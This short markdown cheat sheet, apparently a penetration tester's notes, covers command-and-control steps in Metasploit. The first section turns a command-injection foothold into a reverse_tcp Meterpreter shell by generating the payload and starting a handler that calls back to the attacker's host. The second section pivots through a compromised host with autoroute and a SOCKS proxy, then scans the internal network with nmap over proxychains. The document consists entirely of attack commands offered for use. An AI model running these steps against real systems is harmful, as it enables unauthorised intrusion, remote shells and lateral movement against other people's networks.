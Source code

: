 #c2 
# Command Injection -> Metrepreter
```bash
msfconsole
use payload/cmd/linux/http/x64/metrepreter/reverse_tcp
set LHOST <local IP/interface>
generate -f raw
# Starts handler to 
to_handler
```


# nmap Scan through compromised host
```bash
# Prereq: Have metrepreter session
# Setup route through host
use post/multi/manage/autoroute
set SESSION <session id>
set NETMASK <255.0.0.0 or CIDR>
set SUBNET <ip>
run
# To see defined routes
route

# Setup SOCKS proxy
use auxiliary/server/socks_proxy
run -j
# SOCKSv5 running on 1080

# On attacker host
sudo nano /etc/proxychains.conf
# set proxies to "socks5 127.0.0.1 1080" 

# Run nmap
proxychains nmap -sT -Pn <ip/cidr>

```